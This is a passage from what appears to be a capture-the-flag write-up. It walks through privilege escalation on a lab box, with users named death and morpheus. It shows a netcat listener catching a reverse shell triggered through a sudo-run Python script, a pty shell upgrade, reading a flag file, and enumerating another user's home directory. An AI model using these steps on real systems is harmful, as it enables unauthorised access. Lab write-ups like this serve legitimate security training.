 Set up a netcat listener in another tab and run that code

```
# on Kali/Parrot or any other machine u use
$ nc -lvnp 2137

# on attacked machine
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

Then in another tab we get the shell -> upgrade it
```
$ python3 -c 'import pty; pty.spawn("/bin/bash");
```

We can get the flag now
```
$ cd ~
$ cat death_flag.txt
cat death_flag.txt
[REDACTED]
```

Second flag is here - now last one

`Death`'s password can be found it in `getDreams.py`

### Escalation pt.3 - Morpheus, intended path

Get to morpheus' home dir and list it
```
$ cd /home/morpheus
$ ls -la
total 44
drwxr-xr-x 3 morpheus morpheus 4096 Aug  7 23:48 .
drwxr-xr-x 5 root     root     4096 Jul 28 22:26 ..
-rw------- 1 morpheus morpheus   58 Aug 14 18:16 .bash_history
-rw-r--r-- 1 morpheus morpheus  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 morpheus morpheus 3771 Feb 25  2020 .bashrc
-rw-rw-r-- 1 morpheus morpheus   22 Jul 28 22:37 kingdom
drwxrwxr-x 3 morpheus morpheus 4096 Jul 28 22:30 .local
-rw-rw---- 1 morpheus morpheus   28 Jul 28 22:29 morpheus_flag.txt
-rw-r--r-- 1 morpheus morpheus  807 Feb 25  2020 .profile
-rw-rw-r-- 1 morpheus morpheus  180 Aug  7 23:48 restore.py
-rw-rw-r-- 1 morpheus morpheus   66 Jul 28 22:33 .selected_editor

```

There is a file called `restore.py` - let's check it
```
$ cat restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")

```
